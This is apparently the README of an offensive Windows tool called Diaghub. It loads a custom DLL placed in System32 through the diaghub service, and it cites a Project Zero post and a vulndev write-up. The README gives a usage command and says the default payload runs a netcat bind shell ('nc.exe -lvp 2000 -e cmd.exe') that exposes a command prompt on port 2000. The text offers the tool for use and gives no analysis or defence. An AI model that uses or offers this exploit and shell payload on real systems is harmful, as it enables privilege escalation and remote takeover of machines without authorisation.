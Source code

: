 # Diaghub

Loads a custom dll in system32 via diaghub.

* https://googleprojectzero.blogspot.com/2018/04/windows-exploitation-tricks-exploiting.html?m=1
* https://vulndev.io/howto/2019/03/07/diaghub.html

Example:

Get the dll via some other vulnerability into C:\Windows\System32 and run:
```
diaghub.exe c:\\ProgramData\\ xct.dll
```
The default payload will run `C:\Windows\System32\spool\drivers\color\nc.exe -lvp 2000 -e cmd.exe`
